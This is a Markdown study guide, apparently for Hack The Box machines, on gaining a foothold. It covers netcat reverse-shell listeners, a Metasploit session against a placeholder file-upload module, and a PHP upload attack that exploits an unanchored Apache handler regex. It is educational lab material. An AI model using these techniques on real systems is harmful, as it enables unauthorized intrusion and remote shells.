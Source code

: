 # Foothold

 - [Reverse Shells](Foothold.md#reverse-shell)
 - [Common Vulnerabilities and Exposures (CVE)](Foothold.md#common-vulnerabilities-and-exposures-cve)
 - [Manual Remote Code Execution (RCE)](Foothold.md#manual-remote-code-execution)
 
## Reverse Shell
By far, this is a concept that will come up the most on just about every single machine.  
When you need something that offers command and control of a target after you've exploited it,  
you have two options: a file/port that you connect to or you make the server connect to you.  
Having the server connect to you is a much more reliable option.  

Utilizing a reverse shell is a three step process

 1. Setting up a listener on the attacking machine
    ```
    Command Breakdown:
        nc: TCP/IP swiss army knife, used to read and write data across network connections
        -n: No DNS
        -v: Verbose
        -l: Listen for inbound connections
        -p 4444: Local port to open for connections
    ```

    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    ```
     
 2. Executing a reverse shell on the target machine.  
    This step can use any number of programming languages and commands.  
    Luckily, there's a Github repository called [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)  
    that offers a cheat sheet for such a thing. (Among many other great materials)
    
 3. Return to the listener and start enumerating for a better user.
    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.10.10.10] from (UNKNOWN) [10.10.15.1] 33280
    www-data@example:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```
    
## Common Vulnerabilities and Exposures (CVE)
Since getting the service versions was a part of the reconnaissance phase, it should be taken advantage of.  
Google the version of any services you find and see if there are any vulnerabilities.  
If lucky, there's a Metasploit module or a pre-made script on Exploit-DB.  
If a Metasploit module is used, you won't have to set up your own netcat listener.  
Pre-made scripts that you can download on Exploit-DB can be different;  
sometimes they'll drop you directly into a shell, and sometimes you have to give your own commands

There's a nice [SANS cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf) to help use Metasploit though.  
Here's an example run of a fake exploit to put the cheatsheet into perpsective.
```console
msf5 > search example

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/example_file_upload     2015-09-15       excellent  Yes    Examlple File Upload Vulnerability

msf5 > use 0
msf5 exploit(multi/http/example_file_upload) > options

Module options (exploit/multi/http/example_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   VHOST                       no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   Example 3.1.1

msf5 exploit(multi/http/example_file_upload) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf5 exploit(multi/http/example_file_upload) > set TARGETURI /example/
TARGETURI => /example/
msf5 exploit(multi/http/example_file_upload) > run
[*] Started reverse TCP handler on 10.10.15.1:4444
[*] Sending stage (37543 bytes) to 10.10.10.10
[*] Meterpreter session 1 opened (10.10.15.1:4444 -> 10.10.10.10:56052) at 2020-07-11 20:51:40 -0500
[+] Deleted image.php
meterpreter > shell
Process 3816 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Manual Remote Code Execution
When it's not a well-known CVE with scripts already made for a specific vulnerability,  
then you might just have to do it yourself. If you run out of things to look for  
and you can't find any CVE's, then you can start going through user inputs to see  
what you might be able to exploit. This might normally be php file uploads on easy boxes.

My favorite example of this is executing php code from an uploaded image.  
Below, i've displayed a slightly simplified version of the default php config.  
```console
user@parrot:~$ cat /etc/apache2/mods-available/php7.4.conf
<FilesMatch ".+\.php$">
    SetHandler application/x-httpd-php
</FilesMatch>
# Deny access to files without filename (e.g. '.php')
<FilesMatch "^\.php$">
    Require all denied
</FilesMatch>
```
The part of the config that keeps the website from executing images as well  
is the ending `$` symbol in the regular expression that specifies that it should end with `.php`.  
If a developer wanted to modify this and forgot the `$`,  
then files like `image.php.jpg` gets treated like PHP.  
Slightly more complex versions of this specific attack can use metadata,  
but what most of them have in common is that you have to create a reverse shell.  
In a file upload attack like this, you'd also have to curl the image to trigger it.
```console
user@parrot:~$ nc -nvlp 4444                                  ║ user@parrot:~$ curl 10.10.10.10/image.php.jpg
listening on [any] 4444 ...                                   ║
connect to [10.10.10.10] from (UNKNOWN) [10.10.15.1] 33280    ║
www-data@example:/var/www/html$ id                            ║
uid=33(www-data) gid=33(www-data) groups=33(www-data)         ║
```

The mindset to find this sort of vulnerability is the same mindset needed to  
find many other flavors of file upload and remote code execution attacks on HTB.  
If there's a place for user input on easier boxes, the odds are pretty good that it's exploitable;  
sometimes you'll have to be pretty creative with these things though.

